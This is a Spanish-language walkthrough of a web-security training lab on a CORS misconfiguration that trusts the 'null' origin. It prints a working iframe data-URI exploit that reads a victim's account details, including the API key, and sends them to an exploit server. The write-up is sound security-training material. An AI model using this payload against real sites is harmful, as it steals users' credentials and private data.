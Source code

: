 # Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/91903113-dba9-47f7-946f-b978688cbf98)

Sabemos que el laboratorio tiene una configuración CORS insegura que confía en origin null, tenemos que crear un script que nos devuelva la API key del administrador, por lo que tenemos que encontrar un endpoint que nos devuelva nuestra API key.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/f627e5ec-a806-4a02-b465-9dad19c47a77)

Dashboard del usuario:
![image](https://github.com/user-attachments/assets/36df1afa-6c74-4564-9b8e-53d8dbcecfd7)

Endpoint `/accountDetails`:
![image](https://github.com/user-attachments/assets/b2f8f53b-f33b-4c18-a1a2-ccd00dc6370a)

Hasta ahora este laboratorio es muy similar al anterior, este último endpoint nos devuelve un montón de información sensible relativa al usuario, incluyendo su API key.

El servidor nos devuelve la cabecera `Access-Control-Allow-Credentials: true`, por lo que sabemos que está haciendo uso del protocolo `CORS`. Enviamos esta petición al `Repeater`:
![image](https://github.com/user-attachments/assets/dad8d53b-62f8-4f7e-993a-4ab78cd18049)


Por lo que procedemos a testear la configuración del protocolo para validar si hay vulnerabilidad.

Inyectamos el header `Origin` para validar si el servidor acepta orígenes arbitrarios:
![image](https://github.com/user-attachments/assets/2efabe9f-16d0-40e6-ae12-e94228aed593)

No nos refleja el header por lo que en este laboratorio el servidor no acepta orígenes arbitrarios.

Procedemos a testear si el servidor acepta la cabecera con el valor `Origin: null`:
![image](https://github.com/user-attachments/assets/7b84f93f-c845-49ac-b50f-2c6813ce560f)

Recibimos la cabecera `Access-Control-Allow-Origin: null` como respuesta del servidor.

El servidor está aceptando específicamente el origen null, lo cual podría permitir a un atacante robar datos sensibles desde un origen sin dominio definido.

Este es el caso ideal para explotar usando el `iframe` con `data: URI` que analizamos antes en la teoría:
```html
<iframe sandbox="allow-scripts allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = function() {
      location = 'https://exploit-server.net/log?data=' + this.responseText;
    };
    req.open('GET', 'https://0a6a006a03a0841c8bd04089600ad0088.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
  </script>">
</iframe>
```

Simulamos levantar el servidor con nuestra página maliciosa haciendo click en `Go te exploit server` y pegando nuestro script en el campo `Body`. Luego hacemos click en `Deliver exploit to victim` para simular que la víctima accede a nuestro servidor y su navegador ejecuta el script:
![image](https://github.com/user-attachments/assets/ba5af9e8-7fd3-40fb-92b3-7536bb0425b7)



